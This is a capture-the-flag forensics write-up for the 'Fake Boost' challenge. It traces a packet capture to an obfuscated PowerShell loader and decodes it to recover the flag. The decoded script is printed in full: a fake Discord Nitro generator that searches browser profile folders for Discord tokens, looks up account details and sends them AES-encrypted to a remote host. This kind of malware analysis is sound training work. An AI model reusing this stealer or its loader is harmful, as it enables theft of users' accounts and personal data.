






## Security Write-Up: Forensics Challenge - Fake Boost

During the forensics challenge "Fake Boost," our goal was to unravel the mystery hidden within a Wireshark capture. The capture appeared to contain valuable information, potentially leading to the discovery of a hidden flag.

### Analysis Steps:
1. **Examining Traffic Flows:**
    - To kick things off, we dove into the traffic flows within the Wireshark capture. By analyzing the conversations and filtering for specific ports, we aimed to identify any suspicious activities or potential clues.
      - `Wireshark > Statistics > Capture`. These are the top two traffic results indicating some form of call/download, and they're also early in the stack implying these calls are the instantiation of whatever traffic we're looking for.
    
  
    - Our efforts quickly paid off as we spotted interesting web calls and URLs on Port 8080. These findings hinted at possible payloads or downloads lurking within the captured data.
      - This is what it looks like when we `right click > apply filter A<>B`
        

1. **Extracting PowerShell Script from TCP Streams:**
    - With our curiosity piqued, we delved deeper into the TCP streams within the Wireshark capture. Using the "Follow TCP Stream" feature, we accessed raw data streams to uncover any hidden gems.
    - 
      ```powershell
      $jozeq3n = "9ByXkACd1BHd19ULlRXaydFI7BCdjVmai9ULoNWYFJ3bGBCfgMXeltGJK0gNxACa0dmblxUZk92YtASNgMXZk92Qm9kclJWb15WLgMXZk92QvJHdp5EZy92YzlGRlRXYyVmbldEI9Ayc5V2akoQDiozc5V2Sg8mc0lmTgQmcvN2cpREIhM3clN2Y1NlIgQ3cvhULlRXaydlCNoQD9tHIoNGdhNmCN0nCNEGdhREZlRHc5J3YuVGJgkHZvJULgMnclRWYlhGJgMnclRWYlhULgQ3cvBFIk9Ga0VWTtACTSVFJgkmcV1CIk9Ga0VWT0NXZS1SZr9mdulEIgACIK0QfgACIgoQDnAjL18SYsxWa69WTnASPgcCduV2ZB1iclNXVnACIgACIgACIK0wJulWYsB3L0<-------SNIP------->sHI0NWZqJ2Ttg2YhVkcvZEI8BSZjJ3bG1CIlNnc1NWZS1CIlxWaG1CIoRXYwRCIoRXYQ1CItVGdJRGbph2QtQXZHBCIgACIgACIK0wegknc0BCIgAiCNoQDpgCQg0DIz5WZr9GdkACIgAiCNoQDpACIgAiCNgGdhBHJddmbpJHdztFIgACIgACIgoQDoASbhJXYwBCIgAiCNsHIsFWZ0NFIu9Wa0Nmb1ZmCNoQDiEGZ3pWYrRmap9maxomczkDOxomcvADOwgjO1MTMuYTMx4CO2EjLykTMv8iOwRHdoJCI9ACTSVFJ" ;
      $s0yAY2gmHVNFd7QZ = $jozeq3n.ToCharArray() ; [array]::Reverse($s0yAY2gmHVNFd7QZ) ; -join $s0yAY2gmHVNFd7QZ 2>&1> $null ;
      $LOaDcODEoPX3ZoUgP2T6cvl3KEK = [sYSTeM.TeXt.ENcODING]::UTf8.geTSTRiNG([SYSTEm.cOnVeRT]::FRoMBaSe64sTRing("$s0yAY2gmHVNFd7QZ")) ;
      $U9COA51JG8eTcHhs0YFxrQ3j = "Inv"+"OKe"+"-EX"+"pRe"+"SSI"+"On" ; New-alIaS -Name pWn -VaLuE $U9COA51JG8eTcHhs0YFxrQ3j -FoRcE ; pWn $lOADcODEoPX3ZoUgP2T6cvl3KEK ;%   
      ```
    - Our perseverance led us to PowerShell script with a Base64-encoded string embedded within one of the TCP streams. Recognizing the significance of PowerShell scripts in cyber attacks, we knew we were onto something big.

2. **Decoding PowerShell Script:**
    - Armed with the encoded PowerShell script, our next step was to decode it and extract any valuable information concealed within. We turned to our trusty decoding tools to unravel the mystery.
      - The remainder of the PS script notes the following patterns: To array > Reverse > Join > Get String (into new variable) > From Base64. Let's throw that same string into cyber chef, doing the same thing, and see what we get.
        - 
        - ```powershell
          $URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"

          function Steal {
              param (
                  [string]$path
              )

              $tokens = @()

              try {
                  Get-ChildItem -Path $path -File -Recurse -Force | ForEach-Object {
                      
                      try {
                          $fileContent = Get-Content -Path $_.FullName -Raw -ErrorAction Stop

                          foreach ($regex in @('[\w-]{26}\.[\w-]{6}\.[\w-]{25,110}', 'mfa\.[\w-]{80,95}')) {
                              $tokens += $fileContent | Select-String -Pattern $regex -AllMatches | ForEach-Object {
                                  $_.Matches.Value
                              }
                          }
                      } catch {}
                  }
              } catch {}

              return $tokens
          }

          function GenerateDiscordNitroCodes {
              param (
                  [int]$numberOfCodes = 10,
                  [int]$codeLength = 16
              )

              $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789'
              $codes = @()

              for ($i = 0; $i -lt $numberOfCodes; $i++) {
                  $code = -join (1..$codeLength | ForEach-Object { Get-Random -InputObject $chars.ToCharArray() })
                  $codes += $code
              }

              return $codes
          }

          function Get-DiscordUserInfo {
              [CmdletBinding()]
              Param (
                  [Parameter(Mandatory = $true)]
                  [string]$Token
              )

              process {
                  try {
                      $Headers = @{
                          "Authorization" = $Token
                          "Content-Type" = "application/json"
                          "User-Agent" = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36"
                      }

                      $Uri = "https://discord.com/api/v9/users/@me"

                      $Response = Invoke-RestMethod -Uri $Uri -Method Get -Headers $Headers
                      return $Response
                  }
                  catch {}
              }
          }

          function Create-AesManagedObject($key, $IV, $mode) {
              $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

              if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
              elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
              elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
              elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
              elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


              $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
              $aesManaged.BlockSize = 128
              $aesManaged.KeySize = 256
              if ($IV) {
                  if ($IV.getType().Name -eq "String") {
                      $aesManaged.IV = [System.Convert]::FromBase64String($IV)
                  }
                  else {
                      $aesManaged.IV = $IV
                  }
              }
              if ($key) {
                  if ($key.getType().Name -eq "String") {
                      $aesManaged.Key = [System.Convert]::FromBase64String($key)
                  }
                  else {
                      $aesManaged.Key = $key
                  }
              }
              $aesManaged
          }

          function Encrypt-String($key, $plaintext) {
              $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
              $aesManaged = Create-AesManagedObject $key
              $encryptor = $aesManaged.CreateEncryptor()
              $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
              [byte[]] $fullData = $aesManaged.IV + $encryptedData
              [System.Convert]::ToBase64String($fullData)
          }

          Write-Host "
          ______              ______ _                       _   _   _ _ _               _____  _____  _____   ___ 
          |  ___|             |  _  (_)                     | | | \ | (_) |             / __  \|  _  |/ __  \ /   |
          | |_ _ __ ___  ___  | | | |_ ___  ___ ___  _ __ __| | |  \| |_| |_ _ __ ___   `' / /'| |/' |`' / /'/ /| |
          |  _| '__/ _ \/ _ \ | | | | / __|/ __/ _ \| '__/ _` | | . ` | | __| '__/ _ \    / /  |  /| |  / / / /_| |
          | | | | |  __/  __/ | |/ /| \__ \ (_| (_) | | | (_| | | |\  | | |_| | | (_) | ./ /___\ |_/ /./ /__\___  |
          \_| |_|  \___|\___| |___/ |_|___/\___\___/|_|  \__,_| \_| \_/_|\__|_|  \___/  \_____/ \___/ \_____/   |_/
                                                                                                                  
                                                                                                                  "
          Write-Host "Generating Discord nitro keys! Please be patient..."

          $local = $env:LOCALAPPDATA
          $roaming = $env:APPDATA
          $part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"

          $paths = @{
              'Google Chrome' = "$local\Google\Chrome\User Data\Default"
              'Brave' = "$local\BraveSoftware\Brave-Browser\User Data\Default\"
              'Opera' = "$roaming\Opera Software\Opera Stable"
              'Firefox' = "$roaming\Mozilla\Firefox\Profiles"
          }

          $headers = @{
              'Content-Type' = 'application/json'
              'User-Agent' = 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/91.0.864.48 Safari/537.36'
          }

          $allTokens = @()
          foreach ($platform in $paths.Keys) {
              $currentPath = $paths[$platform]

              if (-not (Test-Path $currentPath -PathType Container)) {continue}

              $tokens = Steal -path $currentPath
              $allTokens += $tokens
          }

          $userInfos = @()
          foreach ($token in $allTokens) {
              $userInfo = Get-DiscordUserInfo -Token $token
              if ($userInfo) {
                  $userDetails = [PSCustomObject]@{
                      ID = $userInfo.id
                      Email = $userInfo.email
                      GlobalName = $userInfo.global_name
                      Token = $token
                  }
                  $userInfos += $userDetails
              }
          }

          $AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
          $payload = $userInfos | ConvertTo-Json -Depth 10
          $encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload

          try {
              $headers = @{
                  'Content-Type' = 'text/plain'
                  'User-Agent' = 'Mozilla/5.0'
              }
              Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
          }
          catch {}

          Write-Host "Success! Discord Nitro Keys:"
          $keys = GenerateDiscordNitroCodes -numberOfCodes 5 -codeLength 16
          $keys | ForEach-Object { Write-Output $_ }
          ```
    - As the Base64 encoding fell away, we uncovered partial flag information embedded within the script. Skimming the code we find a variable that's not used anywhere else in the script:
      - `$part1 = "SFRCe2ZyMzNfTjE3cjBHM25fM3hwMDUzZCFf"`
    - CyberChef decoding this from base64 again gives us what looks like the first half of the flag:
      - `HTB{fr33_N17r0G3n_3xp053d!_`
    -  This discovery fueled our determination to press on and unearth the complete flag.

3. **Decrypting AES-Encrypted Data:**
    - Looking through the rest of the script, we can see a few interesting pieces of data:
      - Calls to an endpoint
        - ```powershell
          $URL = "http://192.168.116.135:8080/rj1893rj1joijdkajwda"
          ...
          try {
              $headers = @{
                  'Content-Type' = 'text/plain'
                  'User-Agent' = 'Mozilla/5.0'
              }
              Invoke-RestMethod -Uri $URL -Method Post -Headers $headers -Body $encryptedData
          }
          catch {}
          ```
      - An encryption function
        - ```powershell
          function Create-AesManagedObject($key, $IV, $mode) {
              $aesManaged = New-Object "System.Security.Cryptography.AesManaged"

              if ($mode="CBC") { $aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC }
              elseif ($mode="CFB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CFB}
              elseif ($mode="CTS") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CTS}
              elseif ($mode="ECB") {$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::ECB}
              elseif ($mode="OFB"){$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::OFB}


              $aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
              $aesManaged.BlockSize = 128
              $aesManaged.KeySize = 256
              if ($IV) {
                  if ($IV.getType().Name -eq "String") {
                      $aesManaged.IV = [System.Convert]::FromBase64String($IV)
                  }
                  else {
                      $aesManaged.IV = $IV
                  }
              }
              if ($key) {
                  if ($key.getType().Name -eq "String") {
                      $aesManaged.Key = [System.Convert]::FromBase64String($key)
                  }
                  else {
                      $aesManaged.Key = $key
                  }
              }
              $aesManaged
          }
          function Encrypt-String($key, $plaintext) {
              $bytes = [System.Text.Encoding]::UTF8.GetBytes($plaintext)
              $aesManaged = Create-AesManagedObject $key
              $encryptor = $aesManaged.CreateEncryptor()
              $encryptedData = $encryptor.TransformFinalBlock($bytes, 0, $bytes.Length);
              [byte[]] $fullData = $aesManaged.IV + $encryptedData
              [System.Convert]::ToBase64String($fullData)
          }
          ```
      - And a call to encrypt the data that is added to that first call
        - ```powershell
          $AES_KEY = "Y1dwaHJOVGs5d2dXWjkzdDE5amF5cW5sYUR1SWVGS2k="
          $encryptedData = Encrypt-String -key $AES_KEY -plaintext $payload
          ```
      - We can assume, now, that given the Create-AesManagedObject is called with just a key and no IV, and that we will have to take the full data, after it's been base64 decoded, and steal the IV back from it to decode the plaintext message that was appended to the cipher text.

4. **Final Steps:**
    - With most of the puzzle pieces in hand, we embarked on the final leg of our journey. Our task now was to decode any remaining encoded data and piece together the final components of the flag.
      - To generate the missing IV, we needed the first 16 bytes out of the encoded message from the `/rj1893rj1joijdkajwda` endpoint in the $URL parameter.
        - 
        - 
      - Then using that along with the AES_KEY, we can decrypt the message and get the final part of the flag.
        - ```sh
            $cat rj1893rj1joijdkajwda 
            bEG+rGcRyYKeqlzXb0QVVRvFp5E9vmlSSG3pvDTAGoba05Uxvepwv++0uWe1Mn4LiIInZiNC/ES1tS7Smzmbc99Vcd9h51KgA5Rs1t8T55Er5ic4FloBzQ7tpinw99kC380WRaWcq1Cc8iQ6lZBP/yqJuLsfLTpSY3yIeSwq8Z9tusv5uWvd9E9V0Hh2Bwk5LDMYnywZw64hsH8yuE/u/lMvP4gb+OsHHBPcWXqdb4DliwhWwblDhJB4022UC2eEMI0fcHe1xBzBSNyY8xqpoyaAaRHiTxTZaLkrfhDUgm+c0zOEN8byhOifZhCJqS7tfoTHUL4Vh+1AeBTTUTprtdbmq3YUhX6ADTrEBi5gXQbSI5r1wz3r37A71Z4pHHnAoJTO0urqIChpBihFWfYsdoMmO77vZmdNPDo1Ug2jynZzQ/NkrcoNArBNIfboiBnbmCvFc1xwHFGL4JPdje8s3cM2KP2EDL3799VqJw3lWoFX0oBgkFi+DRKfom20XdECpIzW9idJ0eurxLxeGS4JI3n3jl4fIVDzwvdYr+h6uiBUReApqRe1BasR8enV4aNo+IvsdnhzRih+rpqdtCTWTjlzUXE0YSTknxiRiBfYttRulO6zx4SvJNpZ1qOkS1UW20/2xUO3yy76Wh9JPDCV7OMvIhEHDFh/F/jvR2yt9RTFId+zRt12Bfyjbi8ret7QN07dlpIcppKKI8yNzqB4FA==
            ```
    - With perseverance and a bit of ingenuity, we decoded the last bits of encoded data, revealing the final key required to complete the flag.
      - 
      - 

### Conclusion:
Through persistence and methodical analysis, we successfully uncovered the hidden flag concealed within the Wireshark capture. This challenge exemplifies the importance of thorough examination and the use of appropriate tools in forensic analysis, ultimately leading to the successful resolution of complex puzzles.
